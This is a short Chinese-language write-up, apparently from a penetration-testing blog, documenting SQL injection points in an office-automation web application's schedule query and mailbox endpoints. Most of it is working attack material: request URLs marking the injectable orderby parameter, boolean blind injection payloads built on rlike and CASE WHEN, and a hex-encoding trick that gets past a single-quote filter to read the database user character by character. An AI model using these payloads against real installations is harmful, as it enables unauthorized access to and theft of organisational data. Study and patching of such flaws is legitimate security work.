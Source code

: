

## SQL注入2——starttime参数

与11.3的SQL注入一样，注入点在：“登录-个人事务-日程安排-日程查询”

抓包Sqlmap跑一下



## SQL注入3——orderby参数

利用条件：一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入

这里sqlmap跑不出来

参数位置：(两处)

```
http://192.168.16.112:8080/general/email/inbox/get_index_data.php?asc=0&boxid=&boxname=inbox&curnum=0&emailtype=ALLMAIL&keyword=&orderby=3--&pagelimit=10&tag=&timestamp=1598069103&total=
```

```
http://192.168.16.112:8080/general/email/sentbox/get_index_data.php?asc=0&boxid=&boxname=sentbox&curnum=3&emailtype=ALLMAIL&keyword=sample%40email.tst&orderby=1&pagelimit=20&tag=&timestamp=1598069133&total=
```



插入sql盲注语句，下图证明存在布尔盲注

```
rlike (select (case when (1=1) then 1 else 0x28 end))
```

![image-20210409180855404](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409180855404.png)

使用手工注入，经过测试发现过滤了单引号，对r字符进行转换成16进制

```
rlike (select (case when (substr(user(),1,1)='r') then 1 else 0x28 end))
```

```
rlike (select (case when (substr(user(),1,1)=0x72) then 1 else 0x28 end))
```

![image-20210409181224477](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409181224477.png)





## SQL注入4——SORT_ID，FILE_SORT参数

payload：

```
rlike (select (case when (1=1) then 1 else 0x28 end))
```
